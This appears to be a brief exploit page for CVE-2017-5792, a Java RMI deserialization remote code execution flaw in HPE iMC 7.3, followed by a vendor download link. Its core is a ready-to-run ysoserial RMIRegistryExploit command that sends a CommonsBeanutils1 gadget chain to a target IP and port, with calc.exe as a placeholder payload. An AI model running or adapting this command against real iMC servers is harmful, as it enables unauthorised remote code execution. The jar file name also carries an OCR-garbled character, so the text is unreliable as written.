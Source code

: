 ## HPE iMC 7.3 Java RMI Registry Deserialization RCE Vulnerability

## CVE-2017-5792

## Exploit

$ java -cp ysoserial-0.0.6-SNAPSHOT-all。 jar ysoserial.exploit.RMIRegistryExploit 192.168.1.100 21195 CommonsBeanutils1 calc.exe

## Software Link
https://h10145.www1.hpe.com/Downloads/DownloadSoftware.aspx?SoftwareReleaseUId=19068&ProductNumber=JG747AAE&lang=en&cc=us&prodSeriesId=4176535&SaidNumber=
